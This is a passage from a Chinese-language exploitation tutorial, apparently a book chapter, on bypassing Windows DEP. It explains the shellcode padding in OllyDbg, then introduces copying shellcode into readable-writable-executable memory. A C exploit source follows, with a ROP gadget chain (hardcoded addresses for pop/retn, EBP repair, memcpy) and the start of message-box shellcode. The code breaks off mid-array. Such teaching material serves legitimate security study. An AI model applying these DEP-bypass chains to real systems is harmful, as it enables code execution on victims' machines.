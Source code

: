 重新编译程序后用 OllyDbg 加载程序，并在 0x7CBBD9BA（调整 EBP 入口）处下断点，然后按 F8 键单步运行进入 0x00030000 内存空间执行后暂停，观察内存状态。

如图 12.3.30 所示，memcpy 函数复制过来的不只是弹出对话框的机器码，还包含着弹出对话框机器码前面的一些指令和参数，而这些东西会破坏程序的执行，所以我们要想办法搞定它们。

<img src="images/09/转入0x00030000执行.png">

首先是对 ESI 和 EDI 指向内存的操作，在 0x00030004 和 x00030005 分别对 ESI 和 EDI 指向的内存有读取操作，我们需要保证 ESI 和 EDI 指向合法的位置。ESI 和 EDI 是在 memcpy 函数返回前被 POP 进去的（如图 12.3.28 所示），这也是为什么在 shellcode 中 memcpy 函数切
入点下边我们没有使用 0x90 填充而使用两个 0x00030000 填充。
接下来是 0x00030006 的 XCHG EAX,EBP 指令，这条指令直接破坏了 ESP，而在弹出对话框的机器码中有 PUSH 操作，所以 ESP 要修复，故我们在弹出对话框的机器码前边使用 0x94填充，在 0x00030013 处来修复这个问题。

最后是 0x0003000F 的对[EAX]操作，如果 0x00030010 处使用 0x90 填充，结果就是对[EAX+0x909094FC]操作，这会引发异常，所以我们使用 0x00 填充 0x00030010，避免出现异常。现在大家应该明白 shellcode 中那些特殊的填充了吧。

>题外话：实际上我们有种更简单的方法来处理掉这些垃圾指令，从图 12.3.30 中大家可以看到我们弹出对话框的机器码起始地址为 0x00030014，我们在可以让 memcpy 函数返回时直接跳转到这个位置，跃过前边的垃圾指令。在这我们之所以使用复杂的方法，是为了给大家介绍在一些特殊情况下 shellcode 的特殊处理思路。


## 利用可执行内存挑战DEP

有时，在进程的内存空间中会存在一段可读可写可执行的内存。使用OllyDbg等调试工具的内存窗口的“Access”列可以看到如“RWE”，即表示可读可写可执行。

如果我们能够将 shellcode 复制到这段内存中，并劫持程序流程，我们的 shellcode 就有执行的机会。

这种方法的实现难度要比前面三种方法小的多，不需要费尽心思地设置内存属性、申请可执行的内存空间……这里所需要的是一点点运气：假使被攻击的程序内存空间中存在这样一个可执行的数据区域，就可以直接通过 memcpy 函数将 shellcode 复制到这段内存区域中执行。我们通过以下代码来分析这种绕过 DEP 的方法。

```c
#include<stdlib.h>
#include<string.h>
#include<stdio.h>
#include<windows.h>
char shellcode[]=
    "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
    //"……"
    "\x90\x90\x90\x90"
    "\x8A\x17\x84\x7C"//pop eax retn
    "\x0B\x1A\xBF\x7C"//pop pop retn
    "\xBA\xD9\xBB\x7C"//修正 EBP retn 4
    "\x5F\x78\xA6\x7C"//pop retn
    "\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
    "\x00\x00\x14\x00"//可执行内存空间地址，复制用
    "\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址.eax 当前应为shellcode起始位置（自test函数调用后未变），所以一旦jmp eax，则跳转回此段shellcode最前端，这会触发DEP异常。所以在修正EBP之前要修正eax为可执行内存地址。
    "\xFF\x00\x00\x00"//shellcode 长度
    "\xAC\xAF\x94\x7C"//memcpy
    "\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
```